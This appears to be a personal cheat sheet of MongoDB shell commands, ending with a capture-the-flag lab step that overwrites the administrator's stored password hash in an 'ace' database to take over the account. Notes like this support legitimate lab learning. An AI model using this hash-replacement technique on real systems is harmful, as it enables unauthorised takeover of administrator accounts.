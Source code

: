 ```yaml
---
title: MongoDB
updated: 2023-11-01 00:47:16Z
created: 2023-10-28 06:43:22Z
latitude: -33.86881970
longitude: 151.20929550
altitude: 0.0000
---
```


`mongosh` # connects to mongodb://127.0.0.1:27017 by default  
`mongosh --host <host> --port <port> --authenticationDatabase admin -u <user> -p <pwd>` # omit the password if you want a prompt  
`mongosh "mongodb://<user>:<password>@192.168.1.1:27017"`  
`mongosh "mongodb://192.168.1.1:27017"`  
`mongosh "mongodb+srv://cluster-name.abcde.mongodb.net/<dbname>" --apiVersion 1 --username <username>` # MongoDB Atlas

List MongoDB databases  
`show dbs`

Switch to database  
`use <database>`

Show collections  
`show collections`

Show users  
`db.admin.find().pretty()`

Run Javascrip  
`load("myScript.js")`

Replace hash of account  
mkpasswd -m SHA512 pa55w0rd  
db.changeUserPassword("administrator@unified.htb", "$6$xGb1mYh1ULA5BMZS$fQRsAF/PepOwuHcUO2vbeqLEI6/IF2OvEfvFdl.a5TdG6EhXnVVoEzFuKYp0Sj7cBCY/AtvuVVNNp3tHTkMvx1")

```
    "_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
    "name" : "administrator",
    "email" : "administrator@unified.htb",
    "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
```

&nbsp;

db.admin.update()

mongo --port 27117 ace --eval 'db.admin.update({"\_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x\_shadow":"$6$xGb1mYh1ULA5BMZS$fQRsAF/PepOwuHcUO2vbeqLEI6/IF2OvEfvFdl.a5TdG6EhXnVVoEzFuKYp0Sj7cBCY/AtvuVVNNp3tHTkMvx1"}})'

$6$xGb1mYh1ULA5BMZS$fQRsAF/PepOwuHcUO2vbeqLEI6/IF2OvEfvFdl.a5TdG6EhXnVVoEzFuKYp0Sj7cBCY/AtvuVVNNp3tHTkMvx1